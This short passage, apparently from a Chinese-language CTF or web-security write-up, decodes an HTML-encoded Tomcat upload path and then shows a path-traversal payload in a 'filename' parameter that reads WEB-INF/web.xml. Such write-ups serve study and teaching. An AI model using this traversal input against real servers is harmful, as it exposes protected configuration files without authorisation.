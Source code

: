 ![w:600 h:300 alt text](image-40.png)  
注意到一串html编码值，后面的&#47..想必就是填入的filename,解码之后就是文件保存的路径    
```
 &#47;usr&#47;local&#47;tomcat&#47;webapps&#47;ROOT&#47;WEB-INF&#47;upload&#47;15&#47;6&#47;..
```  
```
/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/15/6/..
```  

---  

WEB-INF是javaweb应用根目录，但是一般不能通过url访问，路径遍历
查看web.xml文件  
```
filename=../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml  
```

---  
